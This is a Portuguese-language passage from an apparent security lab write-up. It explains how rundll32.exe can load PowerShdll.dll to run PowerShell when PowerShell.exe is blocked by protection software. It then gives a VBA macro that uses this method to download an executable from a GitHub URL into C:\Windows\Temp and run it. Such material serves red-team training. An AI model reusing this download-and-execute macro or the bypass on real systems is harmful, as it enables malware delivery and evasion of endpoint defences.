 No Kali, temos a requisic"ao feita pelo programa normalmente encerrando a task.

## Task \x23

<center><img src="/std/dojo/dojo-81.png"></center>

Esta task deixa as coisas muito interessantes a partir do momento que utilizaremos o `rundll32.exe` que nos permite rodar um programa através de uma `DLL`.

Em resumo, uma `DLL` (Dynamic Link Library) são bibliotecas que contém instruções para outros programas, de forma grosseira, equivalente aos arquivos `.so` no Linux. Estes arquivos não necessariamente precisam ter a extensão `.dll`, também podem ter as extensões `.ocx` (ActiveX Controls), `.cpl` (Control Panel) e `.drv` (Device Drivers).

Acontece que, diferente dos arquivos `.exe`, uma DLL não é executável diretamente, porém o `rundll32.exe` pode fazer este papel chamando diretamente uma DLL. Mas onde isso pode ser uma vantagem?

Vamos supor que agum software de proteção esteja bloqueando a execução do `PowerShell.exe`, neste caso, não será possível executar o PS, porém e se o rodarmos diretamente por uma DLL?

Aí entra o `runndll32`, que nos auxilia nesta tarefa (o que também não é 100% de garantia, mas pode fazer o `bypass` de certas proteções).

Na versão do Windows que estou utilizando no Lab `Windows 10 21H1`, não existe a DLL `PowerShdll.dll`, porém, com uma simples pesquisa, foi possível encontrá-lo [neste](https://github.com/p3nt4/PowerShdll) GitHub. Ao adicioná-lo no diretório `C:\Windows\System32`, é possível chamá-lo através do rundll32 com o comando `rundll32 PowerShdll.dll,main` conforme abaixo.

<center><img src="/std/dojo/dojo-82.png"></center>

Logo, o que precisamos fazer em nossa `Macro` é utilizar exatamente este comando seguido do script, a macro ficou desta forma:

```visualbasic
Sub Download_exec()
pid = Shell("rundll32.exe PowerShdll.dll,main (New-Object System.Net.WebClient).DownloadFile('https://github.com/h41stur/dojo/blob/main/semana_04/client.exe?raw=true','C:\Windows\Temp\client.exe')", 1)
pid2 = Shell("rundll32.exe PowerShdll.dll,main  Start-Process ('C:\Windows\Temp\client.exe')", 1)
End Sub
```
Ao executar a macro, temos novamente a execução do PowerShell e o Download seguido da execução do programa.
